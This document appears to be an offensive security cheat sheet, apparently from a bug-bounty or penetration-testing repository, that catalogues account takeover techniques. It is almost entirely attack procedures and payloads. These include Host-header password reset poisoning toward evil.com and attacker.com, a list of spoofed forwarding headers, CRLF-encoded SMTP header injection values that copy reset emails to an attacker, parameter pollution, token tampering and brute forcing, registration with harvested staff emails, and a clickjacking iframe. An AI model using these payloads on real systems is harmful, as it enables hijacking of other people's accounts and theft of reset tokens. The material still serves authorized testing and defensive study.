## Account Takeover Techniques

### Password Reset Functionalities
```
- Register an account as an attacker.
- Change password and intercept success response of password change.
- Register an account as a victim.
- Try to change password and intercept the response.
- Paste the attacker success response.
```
```
- Click forgot password and put your email.
- Intercept the request and add some headers with attacker control domain.
- Check email and see if password token comes with attacker control domain.
```
#### Password Reset Poisoning
Try to change Host header.
```
Host: evil.com

Not working? Jsut double it.
Host: target.com
Host: evil.com
```
```
Host: target.tld?><a href=http://evil.com
```
Other Headers
```
X-Forwarded-Host: attacker.com
X-Forwarded-Origin: 127.0.0.1
X-Custom-IP-Authorization: 127.0.0.1
X-Original-Url: attacker.com
X-Forwarded-Server: attacker.com
X-Host: attacker.com
X-Rewrite-Url: attacker.com
X-Originating-IP: 127.0.0.1
X-Forwarded-For: attacker.com
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Client-IP: 127.0.0.1
X-HTTP-Host-Override: attacker.com
Forwarded: attacker.com
X-Forwarded-Proto: attacker.com
```

Host Header Bypass Methods
```
GET /api/reset-password HTTP/1.1
Host: vulernable-website.com.evil.com

GET /api/reset-password HTTP/1.1
Host: vulernable-website.com?evil.com

GET /api/reset-password HTTP/1.1
Host: evil.com/vulernable-website.com

GET /api/reset-password HTTP/1.1
Host: evil.com%00vulernable-website.com
```

```
Request:
POST /password-reset?user=123 HTTP/1.1
Host: evil.com

Link received:
none

Error 404 - request blocked

Bypass technique:
Request:
POST https://target.com/password-reset?user=123 HTTP/1.1
Host: evil.com

Link received:
https://evil.com/reset-link=1g2f3guy23g
```


```
- Click forgot passowrd and enter attacker email.
- Intercept the response (Action > Do intercept > Response to this request) and looking for password reset token or code.
- If found, then do the same procedure for victim email. 
```

```
- Click forgot passowrd and enter attacker email.
- Go to email and click on password reset link. See carefully the password reset link, if the link contatin the email using parameter change it with victim email
  or use both email using HPP techniques.
- If email found in POST body, change it with victim email or use both attacker and victim email using HPP.
- If no email found, try SMTP Header Injection techniques.
```

```
- Issue a password reset token for atttacker@email.tld.
- Go to settings and change your email to victim@email.tld.
- Now go to attacker@email.tld's inbox and click on password reset link.
- See the link is working or not.

# Impact
Sometime web app doesn't care about email. User can create more than one account using same email with unique username. 
```
#### Session Puzzling/Session Overloading Attack
```
- Try to access victim's dashboard or profile page normaly which is accessible after login.
- Go to Forgot Password and request for password change behalf of victim.
- Now directly go to dashboard or profile page. If victim's dashboard or profile accessible then it is Session Puzzling/Session Overloading Attack.
```

#### With HTTP Parameter Pollution
```
- Go to password reset link, enter new password and intercept the request
- Add extra email parameter on the request
  email=victim@email.tld&email=attacker@email.tld
- If response success then see which account password has been changed
```

#### SMTP Header Injection & Email Parameter Manipulation
```
email=victim@email
email=victim
email=victim@mail.tld%0d%0acc%3aattacker@mail.tld

email=victim@mail.tld%0d%0abcc%3aattacker@mail.tld

email=victim@email.tld%3aattacker@email.tld

email=victim@email.tld%20email=attacker@email.tld

email=victim@email.tld|email=attacker@email.tld

email="victim@mail.tld",email="attacker@mail.tld"

{"email":["victim@email.tld","atracker@email.tld"]}
```

#### Response manipulation
```
HTTP/1.1 401 Unauthorized
{“message”:”unsuccessful”,”statusCode:403,”errorDescription”:”Unsuccessful”}
----------------------------------------------------------------------------
HTTP/1.1 200 OK
{“message”:”success”,”statusCode:200,”errorDescription”:”Success”}
```

#### Pre-Account Takeover
**Suppose two features(Login via OAuth and email) are available and no email verification needed after registration.**
```
- Create an account using victim email.
- Suppose the victim create an account via OAuth(Login With Google) using same email.
- Now attacker is able to access the victim account.
```
*May be victim will not be able to create an account with this email(Email Already Exist)*

#### Admin Panel Access
**Suppose no email verification needed after registration.**
```
- Try to find out other stuff's email of the company(Use hunter.io).
- Try to register with those email one by one and see it is possible to access stuff's account or admin panel or not.
```
*Sometime application uses username or firstname to create particular user's profile.*
*For example: https://site.com/user/bob/*
```
- Create an account and notice carefully application's naming convention.
- Change your account's username or firstname to some common name for admin panel i.e. admin, administrator, dashboard etc.
```

### Other Techniques
```
- Use unicode char jutsu to spoof email address
- Change request method (get, put, post etc) and/or Content Type (xml<->json) 
- Match bad response and replace with good one
- Use super long string
```
**While inviting users into your account/organization**
```
- Try inviting company emails and add a new field "password":"example123" or "pass":"example123" in the request.
  You may end up resetting a user password.
- For Company emails check on http://hunter.io.
```

### Playing With Token
```
- Use attacker's valid token on Victim's account
- Completely remove the token
- Change it to 00000000000...
- Use null value
- Try expired token
- Try an array of old tokens
- Change 1 char at the begin/end to see if the token is evaluated
- Bruteforce token
```

### Email Change
#### ClickJacking
```
If email can change via GET parameter then check is there any protection against ClickJacking.
<iframe src="http://example.com/change?email=attacker@mail.com"></iframe>
```

